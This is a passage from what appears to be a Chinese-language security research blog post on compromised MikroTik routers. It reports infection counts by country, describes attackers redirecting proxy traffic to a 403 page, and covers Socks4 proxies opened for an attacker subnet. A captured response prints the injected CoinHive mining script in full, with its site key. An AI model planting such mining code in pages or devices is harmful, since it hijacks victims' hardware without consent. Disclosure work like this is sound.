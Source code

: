 ```
 5512 Bangladesh/BD
 4857 Ecuador/EC
 4162 Hungary/HU
```



## 被植入CoinHive挖矿代码

攻击者在启用MikroTik RouterOS http代理功能后，使用了一些技巧，将所有的HTTPProxy请求重定向到一个本地的HTTP 403 error.html 页面。在这个页面中，攻击者嵌入了一个来自 CoinHive.com 的挖矿代码链接。通过这种方式，攻击者希望利用所有经过失陷路由器上HTTP代理的流量来挖矿牟利。

[![](https://blog.netlab.360.com/content/images/2018/09/4-5.png)](https://blog.netlab.360.com/content/images/2018/09/4-5.png)

然而实际上这些挖矿代码不会有效工作。这是因为所有的外部Web资源，包括哪些挖矿所必须的来自CoinHive.com的代码，都会被攻击者自己设定访问控制权限所拦截。下面是一个示例。

```
# curl -i --proxy http://192.168.40.147:8080 http://netlab.360.com
HTTP/1.0 403 Forbidden  
Content-Length: 418  
Content-Type: text/html  
Date: Sat, 26 Aug 2017 03:53:43 GMT  
Expires: Sat, 26 Aug 2017 03:53:43 GMT  
Server: Mikrotik HttpProxy  
Proxy-Connection: close

&lt;html&gt;  
&lt;head&gt;  
   &lt;meta http-equiv="Content-Type" content="text/html; charset=windows-1251"&gt;
   &lt;title&gt;"http://netlab.360.com/"&lt;/title&gt;
&lt;script src="https://coinhive.com/lib/coinhive.min.js"&gt;&lt;/script&gt;  
&lt;script&gt;  
   var miner = new CoinHive.Anonymous('hsFAjjijTyibpVjCmfJzlfWH3hFqWVT3', `{`throttle: 0.2`}`);
   miner.start();
&lt;/script&gt;  
&lt;/head&gt;  
&lt;frameset&gt;  
&lt;frame src="http://netlab.360.com/"&gt;&lt;/frame&gt;  
&lt;/frameset&gt;  
&lt;/html&gt;
```



## 被95.154.216.128/25启用Socks4代理

目前，我们共检测到 239K 个IP被恶意启用Socks4代理，Socks4端口一般为TCP/4153，并设置Socks4代理只允许95.154.216.128/25访问 (这里的权限控制是通过socks代理程序完成，防火墙不会屏蔽任意IP对TCP/4153端口的请求)。

因为MikroTik RouterOS设备会更新IP地址，攻击者设置了定时任务访问攻击者指定的URL以此获取最新的IP地址。此外，攻击者还通过这些失陷的Socks4代理继续扫描更多的MikroTik RouterOS设备。

[![](https://blog.netlab.360.com/content/images/2018/09/5.png)](https://blog.netlab.360.com/content/images/2018/09/5.png)
